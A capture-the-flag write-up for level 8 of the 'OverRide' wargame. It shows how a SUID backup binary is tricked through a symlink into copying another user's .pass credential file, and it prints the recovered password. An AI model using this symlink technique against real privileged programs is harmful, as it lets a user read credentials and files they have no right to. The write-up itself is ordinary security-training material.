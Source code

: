 # Level 8

## Vulnerability

Binary backs up password via symlink

## Context

We find a binary ```level08``` and a directory ```backups``` containing ```.log```, all with owner ```level09``` and SUID.
```
level08@OverRide:~$ ls -l
...
drwxrwx---+ 1 level09 users    60 Oct 19  2016 backups
-rwsr-s---+ 1 level09 users 12975 Oct 19  2016 level08
level08@OverRide:~$ ls -la backups/
...
-rwxrwx---+ 1 level09 users     0 Oct 19  2016 .log
```

When run without arguments its prints ```Usage: ./level08 filename```.
```
level08@OverRide:~$ ./level08
Usage: ./level08 filename
```

When run with a file as argument it copies the file to the ```./backups/``` folder.
```
level08@OverRide:~$ chmod 777 .
level08@OverRide:~$ echo "oh hi" > hi
level08@OverRide:~$ ./level08 hi
level08@OverRide:~$ cat backups/hi
oh hi
```

It also creates a log of the backup
```
level08@OverRide:~$ cat backups/.log
LOG: Starting back up: hi
LOG: Finished back up hi
```

See [disassembly notes](https://github.com/anyashuka/Override/blob/main/level08/disassembly_notes.md) for detailed gdb assembly breakdown.

## Solution

Can we simply backup the password?
```
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

No, because it doesn't deal with files inside directories (concaternates filepath ```//```), it only works with files in the current directory.

So, in the home directory, lets create a symlink to ```/home/users/level09/.pass```. Now we can run the binary on the symlink, and it creates a backup of the password file in the ```backups/``` folder.
```
level08@OverRide:~$ ln -s /home/users/level09/.pass password
level08@OverRide:~$ ./level08 password
level08@OverRide:~$ cat backups/password
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
